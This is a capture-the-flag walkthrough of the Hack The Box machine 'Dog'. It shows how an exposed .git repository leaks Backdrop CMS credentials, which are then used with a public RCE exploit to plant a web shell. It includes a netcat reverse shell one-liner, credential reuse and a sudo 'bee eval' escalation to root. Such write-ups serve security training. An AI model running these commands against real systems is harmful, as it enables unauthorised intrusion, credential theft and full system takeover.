 ```yaml
---
name: Dog
difficulty: easy
os: linux
platform: htb
date: 2025/07/01
releasedDate: 2025-07-12
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.58 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.58 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## User Exploitation

As we can see, there is a web service running on port 80. This is exposing .git directory, which is a common misconfiguration in web applications. We can use this to our advantage.

We use `git-dumper` to download the contents of the `.git` directory:

```bash
python git_dumper.py http://10.10.11.58/.git/ ./website
```

This way we can download the entire repository, including the source code and configuration files.

We find a file named `settings.php` that contains sensitive information such as database credentials and other configuration details.
```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$config_directories['active'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active';
$config_directories['staging'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/staging';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

Connecting to the database using the credentials we found, we can dump the users table to find valid user accounts.

```bash
mysql -u root -pBackDropJ2024DS2024 -h
```
Searching in depth, we find a possible user mail:
```bash
cat files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json
```
The user is `tiffany@dog.htb`

Web page login was successfull using `tiffany@dog.htb:BackDropJ2024DS2024`

We can look up for exploits for the current version of Backdrop CMS. We find `https://www.exploit-db.com/exploits/52021` which is a Remote Code Execution (RCE) vulnerability in Backdrop CMS 1.27.1. Exactly the version we are running.

We copy and run the python script
```bash
python pya.py http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

We need to transform .zip to .tar.gz to upload it in the web application. We can do this with the following command:
```bash
unzip shell.zip && tar -czvf shell.tar.gz shell
```

We upload the `shell.tar.gz` file to the web application using the following steps:
Functionality > Install Module > Manual Installation

Then we can execute commands using the web shell at `http://10.10.11.58//modules/shell/shell.php?cmd=whoami`
```bash
www-data
```

We can get a reverse shell using the following command:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.69 4444 > /tmp/f
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We find there is a user `johncusack` in the home directory:
```bash
ls /home
```

We move to user su `johncusack` using the known password `BackDropJ2024DS2024`
```bash
ssh johncusack
```

We can find the user flag in the home directory:
```bash
cat /home/johncusack/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `johncusack` has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```
We can see that user `johncusack` can run the command `/usr/local/bin/bee` as root.

We can check the usage of the `/usr/local/bin/bee` utility:
```bash
/usr/local/bin/bee --help
```

We find some interesting options

- eval: allows us to execute arbitrary php code
- --root: specifies the root directory to use

We can execute arbitrary code using these parameters. We can use the following command to get a reverse shell as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("id");'
```
```
uid=0(root) gid=0(root) groups=0(root)
```

We can add SUID permission to `/bin/bash` as its owned by root and we can execute it as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("chmod u+s /bin/bash");'
bash -p
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable Backdrop CMS installation to gain user and root access on the Dog machine. By leveraging misconfigurations and known vulnerabilities, we were able to escalate privileges and retrieve the flags.
This highlights the importance of secure coding practices and proper configuration management in web applications.

